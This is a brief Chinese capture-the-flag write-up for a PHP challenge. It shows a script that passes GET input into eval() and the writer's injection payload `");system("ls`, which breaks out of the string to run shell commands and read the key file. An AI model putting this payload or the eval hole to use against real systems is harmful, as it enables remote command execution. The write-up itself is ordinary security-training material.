

# 第一题

代码执行漏洞是指没有针对代码中可执行的特殊函数入口做过滤，导致客户端可以提交恶意构造语句提交，并交由服务器端执行。请利用该漏洞获取到KEY

```php
<?php
error_reporting(0);
include "key4.php";
$a=$_GET['a'];
eval("\$o=strtolower(\"$a\");");
echo $o;
show_source(__FILE__);
```

## write up

虽然看不太懂,感觉是字符逃逸类的, 尝试 a=");system("ls


还是有点用处,然后读key.cisp就可以,了


